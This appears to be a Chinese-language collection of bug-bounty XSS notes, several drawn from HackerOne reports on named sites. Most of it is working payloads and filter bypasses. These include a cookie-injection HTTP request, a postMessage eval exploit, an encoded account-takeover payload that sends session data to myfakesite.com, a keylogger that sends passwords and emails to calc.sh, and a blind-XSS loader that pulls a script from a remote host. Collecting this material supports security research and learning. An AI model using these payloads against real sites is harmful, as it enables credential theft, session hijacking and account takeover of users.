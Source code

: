 # 1.隐藏输入中的xss（绕过输入转义）
参数，位于post请求中的listViewHeading=
有效负载：" accesskey=X onclick=alert()
![[Pasted image 20241014211401.png]]
" accesskey=X onclick=alert() xxx
![[Pasted image 20241014211445.png]]
success

# 2.个人主页的项目名称中可以插入xsspayload
```
post
name="><svg onload="prompt(/xss/);"><!--
```

# 3.二维码xss
二维码执行js

# 4.cookie里的xss
cookie: hav=xxx 反射到页面上
payload:cookie:  hav=xss"</sc"ript><sv"g/onloa"d=al"ert"(document.do"main)>
缓存投毒，http响应里的头Cache-Control和Expires表明可以缓存
还发现cookie明文存储在页面js的这个变量window.INITIAL_STATE.system.cookie
直接alert(window.INITIAL_STATE.system.cookie)
厂商通过去除hav反射在页面修复该问题
邦邦的https://hackerone.com/reports/1760213

```
GET /annonces/location-vacances/france_midi-pyrenees_46_stcere_dt0.php.js?xxxd HTTP/2
Host: www.abritel.fr
Cookie: hav=xss"</sc"ript><sv"g/onloa"d=aler"t"(document.doma"in)>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.abritel.fr/signup?enable_registration=true&redirectTo=%2Fsearch%2Fkeywords%3Asoissons-france-%28xss%29%2FminNightlyPrice%2F0%3FpetIncluded%3Dfalse%26filterByTotalPrice%3Dtrue%26ssr%3Dtrue&referrer_page_location=serp
Upgrade-Insecure-Requests: 1
Te: trailers
```
.js触发缓存。?xxxd缓存破坏器

# 5.postmessage相关的xss
网页存在代码![[Pasted image 20241017232723.png|700]]
e.data有exec的话就用eval执行代码，这里检查origin，但是不严格
```
可以构造https://hq.upserve.com.mydomain.com/xss.html
页面里window.opener.postMessage({exec:'alert("xss")'},"https://inventory.upserve.com/login/);
向目标网站发送一个包含代码执行的消息
```
推荐插件:postmessage tracker
自动化工具：semgrep
或者自己在开发者工具搜
![[Pasted image 20241017233752.png]]

# 6.没有绕过csp的2000刀xss
https://hackerone.com/reports/1804177
这里hunter的提交最初被关闭为selfxss。但是通过与审核沟通，这是一个能攻击管理员的存储xss
在应用程序发现能够创建链接，并且被群组的人看到，于是
使用此`javascript://%0aalert(1)`作为链接创建Custom Link（存在xss的功能）
浏览器报错说csp阻止了，说明此处可能存在xss，于是报告漏洞

思考：学会和审核沟通

# 7.登陆错误的xss
正常情况target.com/login?error=xxx
攻击情况
```
target.com/login?error=<img src=1 onerror=alert()>
```

# 8.个人信息中心处xss
某个字段可以编辑进行存储xss
https://hackerone.com/reports/1921606

# 9.分析上下文构造payload的搜索xss
search?brook
![[Pasted image 20241020112514.png]]
payload：
```
"，inertnalSearchTerm:[7].map(alert),num0fSearchResultsReturned:"b
//输入时候要url编码符号，这里iner这个没有特殊含义
```
这里[].map()算是一个简单绕过思路吧
弹窗
![[Pasted image 20241020112736.png]]

# 10.xss账户接管
这里无法通过cookie窃取会话，但是发现https://www.sidefx.com/account/sessions/页面包含会话信息
测试危害：向其他账号发送https://example.com/&quot&gtsadf&lt/a&gt&ltimg&#32src=&quotxx&quotonerror=&quotalert&#40&#39XSS&#39&#41&quot&gt，受害者打开后发现会弹窗

接管账户的有效负载：
```
https://example.com/&quot&gtsadf&lt/a&gt&ltimg&#32src=&quotxxx&quotonerror=&quotfetch&#40&#39https&#58&#47&#47www.sidefx.com/account/sessions&#39&#41.then&#40response=&gt&#123response.text&#40&#41.then&#40ddd=&gt&#123let&#32el=document.createElement&#40&#39img&#39&#41&#59el.src=&#39http&#58&#47&#47myfakesite.com?q=&#39&#43btoa&#40encodeURIComponent&#40ddd&#41&#41&#59document.body.appendChild&#40el&#41&#125&#41&#125&#41&quot&gt
```
实际上就是
![[Pasted image 20241020133317.png]]
将页面内容（含有session）发给攻击者hhh
由于网站存在论坛，可以在论坛发送payload进行危害发散

思考：账号接管怎么做，如何造成危害（这里通过论坛去扩散危害），cookie被限制时候找找页面有没有存在会话信息的地方

# 11.服务器错误处理cookie导致xss
https://wx.zsxq.com/columns/48884815425228

标题是：通过观察响应值以及**cookie走私**来实现的xss
本来cookie中的字段以分号相隔为不同的cookie字段，但是这里服务器把空格也当成了分隔符，当攻击者用空格进行构造cookie的时候，服务器没有进行安全处理直接将cookie字段反射到页面造成xss
后续还有账号接管操作还没分析
键盘记录器payload
```

setTimeout(function () {
    {
    var a = document.getElementsByName('password')[0];
    var b = document.getElementsByName('email')[0];
    
    function f() {
        fetch(`https://calc.sh/?a=${encodeURIComponent(a.value)}&b=${encodeURIComponent(b.value)}`);
    }
    a.form.onclick = f;
    a.onchange = f;
    b.onchange = f;
    a.oninput = f;
    b.oninput = f;
}, 1000);
```
思考：新的漏洞点，关注cookie等可能的header头也会有xss反射点



# 12.路径重定向的xss
https://hackerone.com/reports/260744



```
https://dev.twitter.com/https:/%5cblackfan.ru/
后面https那个路径会进行重定向到https:/%5cblackfan.ru/
```

https://dev.twitter.com//x:1/:///%01javascript:alert(document.cookie)/
以下是http响应
```
HTTP/1.1 302 Found
connection: close
...
location: //x:1/://dev.twitter.com/javascript:alert(document.cookie)
...


<p>You should be redirected automatically to target URL: <a href="javascript:alert(document.cookie)">javascript:alert(document.cookie)</a>.  If not click the link.
```
思考：提示重定向的页面也可以造成xss

# 13.jquery，存储型盲xss
访问 https://your-store.myshopify.com/admin/settings/account。
添加一个新的员工账号。
在填写名字和姓氏字段时，输入以下payload（恶意代码）：
```
<script>$.getScript("https://yourvps.com/xss.js")</script>
```